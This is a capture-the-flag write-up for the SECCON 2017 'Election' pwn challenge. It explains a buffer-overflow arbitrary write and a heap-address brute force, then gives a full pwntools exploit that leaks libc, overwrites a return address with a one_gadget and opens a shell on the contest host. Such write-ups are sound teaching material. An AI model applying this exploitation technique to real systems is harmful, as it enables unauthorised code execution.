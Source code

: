 ```yaml
---
layout: post
alias: "/blog/2017/12/10/seccon-2017-quals-election/"
date: "2017-12-10T15:19:36+09:00"
tags: [ "ctf", "writeup", "seccon", "seccon-quals", "pwn", "buffer-overflow", "heap", "bruteforce" ]
"target_url": [ "https://ctftime.org/event/512/" ]
---
```


# SECCON 2017 Online CTF: Election

## solution

BOF and bruteforce.

There are a BOF at re-voting for `Ojima`.
This allows us to write anywhere and read somewhere.
Due to FULL RELRO, it's not the flag yet.
We want to get the libc (or heap) base addr.
But if you read the addr simply, then you lose the ability to write.
Here, you can use brutefoce to fix the head address, using $8192$ expected-trials, and get the flag.

## note

[zeosutt](https://twitter.com/zeosutt) and others read the binary and found base solution, and I made the flag using the brute-force attack.
I was faster a little, but he noticed the *neat* solution to get a head address.

## implementation

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='election.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=28349, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./election')
parser.add_argument('--libc', default='libc-2.23.so')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)
libc = ELF(args.libc)

def solve(p):
    def add(addr, value):
        p.sendlineafter('>> ', '2')
        p.sendlineafter('Show candidates? (Y/n) ', 'n')
        p.sendlineafter('candidate.\n>> ', 'Oshima')
        p.sendlineafter('re-vote?\n>> ', 'yes'.ljust(0x20, '\0') + p64(addr - 0x10) + chr(value))
    def write(addr, s):
        for i, c in enumerate(s):
            for value in [ ord(c) / 2, (ord(c) + 1) / 2 ]:  # to avoid to be nagative
                if value:
                    add(addr + i, value)

    heap_base = 0x0162b000  # fixed
    # heap_base = input()
    # log.info('heap base: %#x', heap_base)

    # make a candidate structure, whose name is `got.__libc_start_mai` and next_candidate is the `list`
    p.sendlineafter('>> ', '1')
    p.sendlineafter('name.\n>> ', '\0')
    write(heap_base + 0xf0, p64(elf.got['__libc_start_main']) + p64(heap_base + 0x90))
    add(elf.symbols['list'], 0x20)
    log.info('%#x', elf.got['__libc_start_main'])

    # read the libc base
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('Candidates:\n* ')
    libc_base = u64(p.recvline()[: -1].ljust(8, '\0')) - libc.symbols['__libc_start_main']
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('libc base: %#x', libc_base)

    # read the environ
    write(heap_base + 0x10, p64(libc_base + libc.symbols['environ'] - (heap_base + 0x30)))
    p.sendlineafter('>> ', '2')
    p.sendlineafter('Show candidates? (Y/n) ', 'Y')
    p.recvuntil('* Shinonome\n* ')
    environ = u64(p.recvline()[: -1].ljust(8, '\0'))
    p.sendlineafter('candidate.\n>> ', 'NAME')
    log.info('environ: %#x', environ)
    ret_addr = environ - 240
    log.info('return addr: %#x', ret_addr)

    # attack
    one_gadget = 0xf1117
    write(ret_addr, p64(one_gadget - (libc.symbols['__libc_start_main'] + 240)))
    p.sendlineafter('>> ', '0')

    time.sleep(1)
    p.sendline('id')

for iteration in range(10000):
    log.info('iteration: %d', iteration)
    try:
        with remote(args.host, args.port) as p:
            solve(p)
            p.interactive()
            break
    except EOFError:
        pass

```
